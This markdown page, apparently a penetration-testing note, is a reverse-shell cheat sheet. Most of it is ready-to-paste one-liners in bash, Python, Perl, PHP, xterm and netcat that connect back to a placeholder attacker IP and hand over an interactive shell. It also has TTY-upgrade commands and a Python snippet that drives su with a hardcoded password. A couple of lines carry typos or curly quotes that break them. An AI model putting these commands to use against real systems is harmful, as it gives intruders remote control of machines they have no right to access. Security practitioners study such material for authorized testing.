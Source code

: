 ```yaml
---
title: Reverse Shell Cheatsheet
date: 2024-1-1 
categories: [Notes, Pentest]
tags: [reverse shell,xterm,bash,python,php,netcat,perl,interactive,tty,shell]
comments: false
---
```


# Gaining Access

## Reverse Shell One-Liners

> Bash

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-address",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Perl

```bash
perl -e 'use Socket;$i="<IP-address>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> PHP

```bash
php -r '$sock=fsockopen("<IP-address>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> XTerm

```bash
xterm -display <IP-address>:1
```

> Netcat without -e #1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP-address> 1234 > /tmp/f
```

> Netcat without -e #2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
```

```bash
telnet localhost 443 | /bin/sh | telnet localhost 444
```

## Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
```

> Execute one command with `su` as another user if you do not have access to the shell. Credit to g0blin.co.uk & Mantvydas Baranauskas

```bash
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```
